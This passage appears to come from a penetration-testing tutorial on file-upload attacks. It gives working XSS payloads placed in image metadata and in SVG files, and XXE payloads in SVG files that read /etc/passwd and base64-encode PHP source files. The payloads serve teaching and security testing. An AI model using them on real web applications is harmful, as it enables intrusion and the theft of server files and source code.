 Another example of XSS attacks is web applications that display an image's metadata after its upload. For such web applications, we can include an XSS payload in one of the Metadata parameters that accept raw text, like the Comment or Artist parameters.
```bash
$ exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' image.jpg
```

When the image's metadata is displayed, the XSS payload should be triggered, and the JavaScript code will be executed to carry the XSS attack. Furthermore, if we change the image's MIME-Type to text/html, some web applications may show it as an HTML document instead of an image, in which case the XSS payload would be triggered even if the metadata wasn't directly displayed.

Finally, XSS attacks can also be carried with SVG images, along with several other attacks. Scalable Vector Graphics (SVG) images are XML-based, and they describe 2D vector graphics, which the browser renders into an image. For this reason, we can modify their XML data to include an XSS payload. For example, we can write the following to svg.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>
```

## XXE
Similar attacks can be carried to lead to XXE exploitation. With SVG images, we can also include malicious XML data to leak the source code of the web application, and other internal documents within the server. The following example can be used for an SVG image that leaks the content of (/etc/passwd):

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```

Once the above SVG image is uploaded and viewed, the XML document would get processed, and we should get the info of (/etc/passwd) printed on the page or shown in the page source. Similarly, if the web application allows the upload of XML documents, then the same payload can carry the same attack when the XML data is displayed on the web application.

While reading systems files like /etc/passwd can be very useful for server enumeration, it can have an even more significant benefit for web penetration testing, as it allows us to read the web application's source files. Access to the source code will enable us to find more vulnerabilities to exploit within the web application through Whitebox Penetration Testing. For File Upload exploitation, it may allow us to locate the upload directory, identify allowed extensions, or find the file naming scheme, which may become handy for further exploitation.

To use XXE to read source code in PHP web applications, we can use the following payload in our SVG image:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```
